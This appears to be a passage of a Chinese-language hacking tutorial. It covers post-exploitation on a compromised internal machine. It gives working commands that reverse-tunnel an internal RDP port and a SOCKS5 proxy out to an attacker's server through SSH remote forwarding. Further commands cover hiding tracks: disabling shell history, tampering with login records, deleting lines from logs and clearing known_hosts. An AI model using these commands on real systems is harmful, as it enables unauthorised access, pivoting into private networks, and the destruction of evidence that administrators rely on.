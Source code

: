 例子 2:

内网 ip 转发： 除了能转发 localhost，还能转发内网其他 ip 的端口，甚至在不同网段都行，只要能从内网的已沦陷机器访问到就行。比如内网有个 windows 服务器，ip 192.168.5.10, 开了 3389 端口，不过也只能在内网访问⋯⋯

```
ssh -fNR 13389:192.168.5.10:3389 forward@123.123.123.123 
```

反弹成功后 mstsc 连 123.123.123.123:13389 即可⋯⋯

ssh 转发端口是可以多开的，就是要注意转发到你服务器的端口不要重了。

用完之后记得关掉:

```
ps aux|grep ssh 
```

在进程里可以看到 ssh 的转发命令，把 pid kill 了就行。另外也可以在 ssh 服务器端 kill，

```
netstat -anp|grep sshd 
```

ssh 的时候会记录 known_hosts，所以最后擦屁股的时候记得到开 ssh 的用户名的 home 文件夹 .ssh 里面把 known_hosts 清掉

ssh 反弹 socks5 方法

如果用 ssh 自带的 socks5 服务器的话，需要一个能在本地登录的帐号，可以是 nologin 的，但是必须要能登录，如果不是 root 的话，socks 端口只能开到>1024 的端口。原理是先在本地开 socks5，然后把本地 socks5 服务器的端口弹到远程服务器。

姿势：

```
ssh -fND 127.0.0.1:8080 user@127.0.0.1 
```

这样会在本地 8080 端口开 socks5 代理，然后反弹

```
ssh -fNR 18080:127.0.0.1:8080 forward@123.123.123.123 
```

这样可以把 socks5 代理弹到 123.123.123.123 的 18080 端口，可以用 proxychains 和其他支持 socks5 代理的工具最大限度的窥探内网

### Linux 下隐藏痕迹

* * *

通过其他方式得到 shell 的话，需要去掉 histfile 等环境变量：

```
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; 
```

登录 ssh 后管理员用 w 查看当前登录用户，所以有必要隐藏，推荐 xi4oyu 的 logtamper

清除日志里指定内容：

日志必须是文本格式，而且你有权限读写⋯⋯

```
awk '!/pattern/' filename > temp && mv temp filename 
```
